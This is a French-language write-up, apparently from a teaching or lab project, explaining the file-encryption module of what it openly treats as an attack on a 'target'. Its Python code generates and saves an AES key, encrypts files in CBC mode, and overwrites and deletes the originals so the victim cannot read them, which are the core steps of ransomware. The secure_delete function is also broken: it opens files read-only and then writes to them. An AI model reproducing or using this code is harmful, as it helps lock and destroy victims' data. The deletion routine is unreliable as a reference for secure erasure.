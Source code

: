 ## Chiffrement des fichiers

Le chiffrement des fichiers se fait par le module encrypt_files.

### Génération de la clé AES

Voici le module pour générer la clé AES.
Ici, nous utilisons la librairie PyCryptodome pour générer une suite de bytes aléatoires que nous allons utiliser comme clé de chiffrement.
Ensuite, nous enregistrons cette clé dans un fichier keyfile.key afin de pouvoir la réutiliser pour chiffrer et déchiffrer les fichiers.


```python
def save_key(key, keyfile_path):
    """Cette fonction permet d'enregistrer la clé générer dans un fichier afin de pouvoir la
    partager et la réutiliser pour chiffrement et déchiffrement du dossier

    Args:
        key: clé secrète AES
        keyfile_path: le fichier dans lequel sera enregistrée la clé
    """
    with open(keyfile_path, 'wb') as keyfile:
        keyfile.write(key)
    print(f"Clé enregistrée dans {keyfile_path}.")
    
def generate_key():
    key = get_random_bytes(32)
    key_file_path = "keyfile.key"
    save_key(key, key_file_path)
```

### Chiffrement des fichiers
Ici, nous chiffrons les fichiers grâce à une itération sur chaque fichier, qui est ensuite chiffré avec la fonction encrypt_file.

La fonction encrypt_file prend en paramètres le chemin du fichier et la clé de chiffrement.
Nous ouvrons d'abord le fichier avec python en mode binaire (c'est la signification de l'option 'rb').
C'est important d'ouvrir le fichier en mode binaire parce qu'AES ne peut chiffrer que des octets et non du texte. Nous enregistrons ainsi le contenu du fichier sous forme de bytes dans la variable file_data.
Ensuite nous créons un nouveau object AES de la lirairie PyCryptodome en mode CBC (Cipher Block Chaining), qui doit nous permettre de chiffrer le fichier.

Explication des fonctions de la librairie : 

pad()
Le padding est nécessaire parce qu'AES travaille avec des blocs de taille fixe (16 octets pour AES). Si les données du fichier ne sont pas un multiple de la taille de bloc, la fonction pad ajoute des octets supplémentaires pour compléter le dernier bloc.

cipher.iv
Le mode CBC nécessite un vecteur d'initialisation (IV) pour fonctionner. Il est ajouté au début du texte chiffré. L'IV permet une part d'aléatoire au chiffrement.

Aisni, la fonction encrypt_file retourne une combinaison du vecteur d'initialisation (cipher.iv), qui occupe les 16 premiers octets et du texte chiffré (cipher.encrypt(...)) qui suit.

```python
def encrypt_file(file_path, key):
    with open(file_path, 'rb') as f:
        file_data = f.read()
    cipher = AES.new(key, AES.MODE_CBC)
    ciphertext = cipher.iv + cipher.encrypt(pad(file_data, AES.block_size))
    return ciphertext
```

### Suppression des fichiers originaux pour empêcher la lecture

Enfin, nous supprimons les fichiers d'origine pour empêcher la lecture par la cible.
D'abord, nous récupérons la taille du fichier en octets (nombre total d'octets dans le fichier).
Cette information est nécessaire pour savoir combien de données aléatoires doivent être écrites pour écraser complètement le fichier. 
os.urandom(file_size) génère ensuite une séquence d'octets aléatoires de longueur égale à file_size.
Ces octets sont cryptographiquement sûrs, ce qui rend leur récupération extrêmement difficile. Puis, f.write écrit les octets générés directement dans le fichier, remplaçant son contenu existant. Cela garantit que l'ancien contenu est écrasé avant que le fichier ne soit supprimé.
os.remove(file_path) supprime enfin le fichier du système de fichiers après écrasement de son contenu.


```python
def secure_delete(file_path):
    try:
        with open(file_path, 'rb') as f:
            file_size = os.path.getsize(file_path)
            f.write(os.urandom(file_size))
        os.remove(file_path)
    except Exception as e:
        print(f"Erreur lors de la suppression sécurisée de {file_path}: {e}")
```
